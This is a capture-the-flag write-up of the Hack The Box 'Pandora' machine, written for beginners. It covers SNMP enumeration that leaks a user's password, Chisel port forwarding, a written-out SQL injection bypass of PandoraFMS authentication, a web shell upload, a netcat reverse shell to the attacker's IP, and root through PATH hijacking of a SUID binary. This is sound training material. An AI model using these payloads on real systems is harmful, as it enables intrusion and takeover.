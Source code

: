 # Pandora Write-up
Hi everyone, let's start to h4ck !
## Description
The box is available [here](https://app.hackthebox.com/machines/Pandora) if you want to try before read this write-up !

 - OS : Linux
 - Release date : 08 january 2022
 - Difficulty : easy
 - Points : 20
 - IP Adress : ```10.10.11.136```

Pandora is a nice box for beginner and interesting to learn new tools.

## Foothold
### Scanning The Box :
So first, we gonna scan the IP adress with the popular tool **Nmap** with the command :
```markdown
nmap 10.10.11.136 -sC -sV -p-
```

We have the following result :
```markdown
# Nmap 7.91 scan initiated Sun Feb 20 21:02:20 2022 as: nmap -p- -sC -sV -oA scan_nmap 10.10.11.136
Nmap scan report for Pandora.htb (10.10.11.136)
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 21:02:42 2022 -- 1 IP address (1 host up) scanned in 21.80 seconds
```
We can see there is two open ports : *HTTP* (80) and *SSH* (22).

The SSH version seems not be vulnerable to a CVE, so we gonna check the website with **Nikto** and **Gobuster**.
```markdown
nikto -h 10.10.11.136
gobuster dir --url http://10.10.11.136 -w /usr/share/wordlist/dirb/big.txt -x html,php,txt,xml,bak,zip
```

We have find some infos and files but nothing interesting.

I try to re-check my scan with **Nmap** but here, I made a *UPD-Scan* :
```markdown
nmap 10.10.11.136 -sU
```
Now, we have a new port, a UDP-port :
```markdown
161/udp open|filtered snmp   SNMPv1 server; net-snmp SNMPv3 server (public)
```
SNMP is short of *Simple Network Management Protocol*. The explaination can be find [here](https://www.manageengine.com/fr/network-monitoring/what-is-snmp.html)

### Interaction with the SNMP server : 
Here we use *snmp-check*, a tool already installed in Kali-linux.
The syntax is simple: 
```markdown
snmp-check -p 161 10.10.11.136
```
After do this, we have got a long output and when we read it, we can see this interesting line:
```markdown
850                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
```
There is a process which use credentials of the user *Daniel* !

So we can use *SSH* now !

## User Flag
First, we check the other users present in the box. There is another user who call *Matt*.
```markdown
cat /etc/paswd | grep /bin/bash
```
```markdown
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
We have no flag in our account so the user flag is in *Matt*'s account.
### Analyse the box 
We need to upgrade our lower access to a higher access to become *Matt*.

We can check the *SUID* files:
```markdown
find / -type f -perm /6000 -ls 2>/dev/null
```
We can do a ```sudo -l``` or a ```cat /etc/crontab``` too but we have nothing interesting.

We can use a popular automated tool which call [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) to check all the misconfigurations present.
But with LinPEAS, we found nothing.

We read the hosts file.
```markdown
cat /etc/hosts
127.0.0.1       localhost
```

We try to cURL the localhost with ````curl 127.0.0.1```` and there is a website made with [*PandoraFMS*](https://pandorafms.com).

### Access to the site

So we have access to the site in local only. It is the best moment to introduce the tool [**Chisel**](https://github.com/jpillora/chisel).

**Chisel** is using for port fowarding, so here, we use it to forward the local website to our machine. After upload the binary, we use the following commands:

In our machine:
```markdown
./chisel server -p 8888 -reverse
```

In *Daniel*'s machine:
```markdown
./chisel client {YOUR_IP}:8888 R:8889:localhost:80
```

Now, go in our web browser and we have access to the site.

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/web_pandora.jpg)

As you see, there is a login/password page. We test admin/admin ; admin/password but no result.

In the bottom, there is the version of *PandoraFMS* : ````v7.0NG.742````. Go check if there is a exploit for this version and when we search a little, we found 
a *bypass authentification* with a [Youtube Video](https://youtu.be/61KE45V7VT8). The bypass works with a *SQL injection*. Now, we are admin of the website. 

The exploit is:
```markdown
include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

### Become Matt
We need a shell as *Matt*, so we gonna upload a reverse shell in the extensions part. We can't directly upload a php file but we can bypass this with a ```.zip``` file which content our shell. 

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/upload_zip.png)

Now, go in ````http://localhost:8889/pandora_console/extensions/{YOUR_PAYLOAD}.php````. Here, it is a web shell because a try a reverse shell but it didn't work. After, in my web shell, I put a reverse shell with ````rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f```` and it worked. We are *Matt* !

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/id_matt.png)

To have a better shell, put your public *SSH* key in the ````/home/matt/.ssh/authorized_keys````. Then connect with:
```markdown
ssh -i {YOUR_PRIVATE_KEY} matt@10.10.11.136
```
And you will be in *SSH*.

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/id_rsa_matt.png)

## Privilege Escalation
The last step of the challenge is easy. Just made a basic enumeration and you will find a *SUID* file which call ````/usr/bin/pandora_backup````.

If we make a ````cat````, we see that the binary execute **tar**. 

To exploit this, it is really simple:
 - go in ````/tmp```` and create a file contain ````/bin/bash````. 
 - rename the file as ````tar````.
 - change the permissions 
 - export the *$PATH*

So let's do this:
```markdown
cd /tmp
echo '/bin/bash' > tar
chmod 777 tar
export PATH=/tmp:$PATH
```

When we execute the binary: 

![alt text](https://github.com/Vssksj/My_projects/blob/main/HackTheBox/Pandora/id_root.png)

BOOM ! We are ROOT !

*Note: It really important to run this in SSH beause when I tried in a 'bad shell', it didn't work.*

## Conclusion
This box was really fun and good for the beginners because you can learn notion as *Port Forwarding*, *Privilege Escalation* and *UDP Scan*. I recommend this box, 5 stars.

Thanks for reading ! :) 
